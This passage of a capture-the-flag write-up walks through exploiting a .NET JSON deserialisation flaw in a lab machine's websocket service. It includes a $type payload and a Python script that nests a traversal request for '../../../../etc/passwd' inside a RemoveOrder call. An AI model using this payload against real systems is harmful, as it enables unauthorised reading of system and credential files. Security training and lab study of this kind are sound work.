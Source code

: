 From the 3 main functions, it seems that ReadOrder does check for LFI, so that's not exploitable. WriteOrder does not seem to do much, but RemoveOrder is suspiciously short and does nothing. For our JSON deserialisation exploit, perhaps we should use this as the main function for exploitataion. We know from the main function of the DLL that the code **always deserializes the input we give it no matter what**.

### Deserialization

We know that this is a .NET related JSON deserialisation exploit based on the DLL. This resource was particularly helpful in creating the payload:

{% embed url="https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15" %}

```json
{
  "$type": "System.IO.FileInfo, System.IO.FileSystem",
  "fileName": "test.txt",
  "attributes": 2
}
```

For our payload, we would first need to add the the 'RemoveOrder' function, then nest our payload within it. Since the TypeNameHandling = 4, the `$type` variable has to call the root object's type, in this case it would be `bagel_server.file,bagel` as per the DLL object names.&#x20;

Afterwards, we can call the `ReadFile` function to read whatever file we want.&#x20;

This was my code and output: (took a while of testing)

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.129.150.229:5000/")
order = {"RemoveOrder":{"$type":"bagel_server.File,bagel", "ReadFile":"../../../../etc/passwd"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

<figure><img src="../../../.gitbook/assets/image (812).png" alt=""><figcaption></figcaption></figure>
